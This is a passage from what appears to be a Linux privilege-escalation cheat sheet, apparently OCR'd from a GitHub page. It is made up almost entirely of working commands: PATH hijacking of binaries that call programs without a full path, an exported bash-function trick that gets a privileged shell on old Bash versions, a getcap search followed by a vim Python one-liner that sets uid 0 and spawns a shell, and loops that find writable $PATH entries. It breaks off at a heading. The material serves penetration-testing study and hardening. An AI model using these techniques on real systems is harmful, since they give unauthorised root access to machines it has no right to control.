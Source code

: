 > Execute binary without the full path

1. Create a binary with the same name as the program executed by the binary
2. Run the vulnerable binary: `PATH=.:$PATH VULN_BINARY`

> Bash versions **<4.2-048**

Get version:

```bash
/bin/bash --version
```

Exploit:

```bash
function LOAD_BIN_FULL_PATH { /bin/bash -p; }
export -f LOAD_BIN_FULL_PATH
./VULN_BIN
```

## Linux capability

```bash
find / -type f -print0 2>/dev/null | xargs -0 getcap 2>/dev/null
```

or

```bash
getcap -r / 2>/dev/null
```

### Example

```ss
setcap cap_setuid+ep vim
```

```sh
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Exploit Path

Look for directories in `$PATH` that are writable:

```sh
for i in $(echo $PATH | tr ":" " "); do [ -w $i ] && echo "$i" ; done
```

Look for script in `$PATH` that are writable:

```sh
scriptName="SCRIPT"
for i in $(echo $PATH | tr ":" " "); do [ -w $i/$scriptName ] && echo "$i/$scriptName" ; done
```

Find a writable dir:
